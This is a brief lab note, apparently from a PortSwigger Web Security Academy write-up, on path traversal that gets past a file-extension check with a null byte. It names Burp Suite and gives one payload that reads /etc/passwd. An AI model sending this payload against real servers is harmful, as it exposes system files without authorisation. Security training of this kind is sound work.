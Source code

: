 # File path traversal, validation of file extension with null byte bypass

Source: Portswigger
Tools: Burpsuite
Technique: Path Traversal
Fields: Web

- ../../../etc/passwd%00.png